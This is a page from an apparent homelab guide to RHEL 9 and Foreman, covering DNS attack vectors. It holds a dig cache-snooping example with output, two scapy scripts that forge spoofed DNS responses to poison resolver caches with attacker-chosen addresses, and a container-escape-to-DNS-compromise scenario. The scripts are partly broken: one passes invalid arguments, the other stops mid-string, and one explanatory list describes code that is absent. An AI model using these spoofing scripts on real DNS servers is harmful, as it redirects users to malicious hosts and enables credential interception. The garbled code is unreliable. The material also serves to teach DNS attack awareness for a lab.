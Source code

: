 


 | [Repo](https://ji-podhead.github.io/RHEL_9_Foreman_Guide/knowledge%20base)| [main](https://ji-podhead.github.io/RHEL_9_Foreman_Guide/knowledge%20base)| [DNS](https://ji-podhead.github.io/RHEL_9_Foreman_Guide/installation%20(katello%2Cdiscovery%2Cdhcp%2Ctftp)) | 

---

 | [Knowledge Base](https://ji-podhead.github.io/RHEL_9_Foreman_Guide/knowledge%20base)| [Install](https://ji-podhead.github.io/RHEL_9_Foreman_Guide/installation%20(katello%2Cdiscovery%2Cdhcp%2Ctftp)) | [Test&Debug](https://ji-podhead.github.io/RHEL_9_Foreman_Guide/installation%20(katello%2Cdiscovery%2Cdhcp%2Ctftp)) | [Attack Vectors & Scenario](https://ji-podhead.github.io/RHEL_9_Foreman_Guide/discovery%20and%20provisioning) | [Protection](https://ji-podhead.github.io/RHEL_9_Foreman_Guide/libvirt) | 
# Attack Vectors & Scenario
## Attack Vectors
### Snooping
- we can get the ip's of the clients  that send DNS-requests to the server
  - this is because the dns stores/caches the ips of the clients for the reverse request to speed up the connection-process
```Bash
dig +norecurse @192.168.122.7 foreman.de
```
>```
>; <<>> DiG 9.16.23-RH <<>> +norecurse @192.168.122.7 foreman.de
>; (1 server found)
>;; global options: +cmd
>;; Got answer:
>;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 17547
>;; flags: qr aa; QUERY: 1, ANSWER: 1, AUTHORITY: 2, ADDITIONAL: 2
>
>;; OPT PSEUDOSECTION:
>; EDNS: version: 0, flags:; udp: 1232
>; COOKIE: 05a3b545adc9f83701000000666323381697775d93001fbd (good)
>;; QUESTION SECTION:
>;foreman.de.			IN	A
>
>;; ANSWER SECTION:
>foreman.de.		604800	IN	A	192.168.122.20
>
>;; AUTHORITY SECTION:
>foreman.de.		604800	IN	NS	bindserver.foreman.de.
>foreman.de.		604800	IN	NS	localhost.
>
>;; ADDITIONAL SECTION:
>bindserver.foreman.de.	604800	IN	A	192.168.122.20
>
>;; Query time: 1 msec
>;; SERVER: 192.168.122.7#53(192.168.122.7)
>;; WHEN: Fri Jun 07 17:11:52 CEST 2024
>;; MSG SIZE  rcvd: 147
 >```
> now we know that `localhost` made a DNS-request for `foreman.de`

---


> -   We construct a DNS query packet targeting `www.example.com`.
> -   We then create a DNS response packet that includes our spoofed source IP (`src_ip`) and the actual destination IP (`dst_ip`). The response packet is crafted to mimic a legitimate DNS response for `www.example.com`, directing it to an IP address (`1.3.3.7`) of the attacker's choice.
> -   Finally, we send the crafted DNS response packet towards the DNS server.

---

### DNS Cache-Poisining
 DNS cache poisoning, is a malicious activity where an attacker injects false DNS records into a DNS server's cache. 
> - This manipulation tricks the DNS server into returning incorrect IP addresses for a domain name, redirecting users to malicious websites instead of legitimate ones.

- Attackers often target DNS servers that are not properly secured or configured, leading to successful redirection of traffic.
- there are 2 main tatics used:
> 
>     - a ***denial of service attack*** such as DDOS can generate latency, or kill the spoofed server in order to take it over 
>     -  

---

***Sending a fake record using spoofed ip***
- attack an additional nameserver in order to respond to the targeted nameserver with a correct ip, but also with a ***fake record***
   -  a ***denial of service attack*** such as DDOS can be used to kill the additional nameserver to spoof it
   - server got taken over by any other hack and gets controlled directly
```Python
from scapy.all import *

# Define the destination IP (the victim's DNS server)
dst_ip = "8.8.8.8"  # Google's DNS server as an example

# Define the source IP (the attacker's IP, spoofed)
src_ip = "192.168.1.100"

# Create a DNS query packet for test.example.com
query_packet_test = IP(dst=dst_ip)/UDP(dport=53)/DNS(rd=1, qd=DNSQR(qname="test.example.com"))

# Create a DNS response packet for test.example.com with a spoofed IP address
response_packet_test = IP(src=src_ip, dst=dst_ip)/UDP(sport=12345, dport=53)/DNS(id=query_packet_test[DNS].id, aa=True, qr=True, rcode=0, an=DNSRR(rrname="test.example.com", ttl=10, rdata="correct.ip.for.test.example.com"))

# Create a DNS query packet for de.wikipedia.org
query_packet_wiki = IP(dst=dst_ip)/UDP(dport=53)/DNS(rd=1, qd=DNSQR(qname="de.wikipedia.org"))

# Create a DNS response packet for de.wikipedia.org with a spoofed IP address
response_packet_wiki = IP(src=src_ip, dst=dst_ip)/UDP(sport=12345, dport=53)/DNS(id=query_packet_wiki[DNS].id, aa=True, qr=True, rcode=0, an=DNSRR(rrname="de.wikipedia.org", ttl=10, rdata="192.0.2.1"))

# Send the DNS response packets
send(response_packet_test)
send(response_packet_wiki)

print("Sent DNS response packets.")

```

---

***Sending a fake query by using IP-Spoofing***
- we will attack the victim directly instead of using an additional nameserver
 - a ***denial of service attack*** such as DDOS could be used to kill the corresponding DNS 
- the spoofed DNS sends a `fake query` directly to the victim 
-  the attcker will either:
   - sniff the web to get the Transaction-Number
   - use random Transaction-Number in brute-force-manier
 

```mermaid
sequenceDiagram
    participant Attacker as Attacker (192.168.1.100)
    participant Victim as Victim Client (192.168.122.7)
    Attacker->>Victim: Generates a random transaction ID
    Attacker->>Victim: Creates a fake DNS query for foreman.de
    Attacker->>Victim: Sends the fake DNS query
    Note over Attacker,Victim: Victim receives the fake DNS query
    Attacker->>Victim: Creates a fake DNS response for foreman.de pointing to 1.3.3.7
    Attacker->>Victim: Sends the fake DNS response
    Note over Attacker,Victim: Victim caches the fake DNS response
    Attacker->>Victim: Later, Victim requests foreman.de
    Attacker->>Victim: Returns the cached fake DNS response (1.3.3.7)
    Note over Victim: Victim tries to access foreman.de but is redirected to a different site

```

```python
from scapy.all import send, IP, UDP, DNS, DNSQR, DNSRR
import random

# Target domain to be spoofed
target_domain = "foreman.de"

# IP address of the machine running the python code
attacker_ip = "192.168.1.100"  # Modify this according to your environment

# IP address of the victim client (DNS resolver)
victim_ip = "192.168.122.7"  # Modify this according to your environment

# DNS port
dns_port = 53

# Generate a random transaction ID
transaction_id = random.randint(0, 65535)

# Generate a fake DNS query
def generate_fake_dns_query(transaction_id):
    query = DNSQR(qname=target_domain, id=transaction_id)
    return query

# Spoof the DNS request and response
def spoof_dns_request_and_answer(transaction_id):
    # Create the DNS request with the specified transaction ID
    query_packet = IP(src=attacker_ip, dst=victim_ip) / UDP(sport=random.randint(1024, 65535), dport=dns_port) / DNS(id=transaction_id, rd=1, qd=DNSQR(qname=target_domain))
    
    # Create the fake DNS response
    answer = IP(dst=victim_ip, src=attacker_ip) / UDP(dport=dns_port, sport=random.randint(1024, 65535)) / DNS(id=transaction_id, aa=True, qr=True, an=DNSRR(name=target_domain, type='A', ttl=10, rdata='1.3.3.7'))
    
    # Send the fake DNS response
    send(answer)

# Start the DNS spoofing attack
spoof_dns_request_and_answer(transaction_id)

print(f"DNS spoofing
```

---

###  Possible Szenario
> Escaping a Web Application Container and Attacking a Private DNS Server

***Background***

-   A web application is running within a container in a Kubernetes (K8s) cluster.
-   The attacker has compromised the web application container and aims to escalate their privileges.

**Attack Steps**

1.  ***Container Escape:***
    
    -   The attacker identifies a vulnerability (e.g., misconfigured security settings, outdated software) within the web application container.
    -   They exploit this vulnerability to escape the container.
2.  ***Network Access:***
    
    -   Once outside the container, the attacker gains access to the underlying host system.
    -   They can now interact with the network interfaces (NICs) on the host.
3.  **Discovering DNS Servers:**
    
    -   The attacker scans the network to identify DNS servers.
    -   They may find a private DNS server used for internal services, such as dashboards or monitoring tools.
4.  **DNS Server Exploitation:**
    
    -   The attacker targets the private DNS server:
        -   If the DNS server is misconfigured (e.g., allows zone transfers), they can retrieve DNS records.
        -   They can manipulate DNS records (e.g., redirecting traffic to malicious IP addresses).
        -   If the DNS server has known vulnerabilities (e.g., outdated software), they can exploit them.
5.  **Impact of DNS Server Compromise:**
    
    -   By compromising the DNS server, the attacker can:
        -   Redirect legitimate users to malicious sites.
        -   Intercept sensitive data (e.g., login credentials) by modifying DNS responses.
        -   Disrupt internal services by altering DNS records.




---
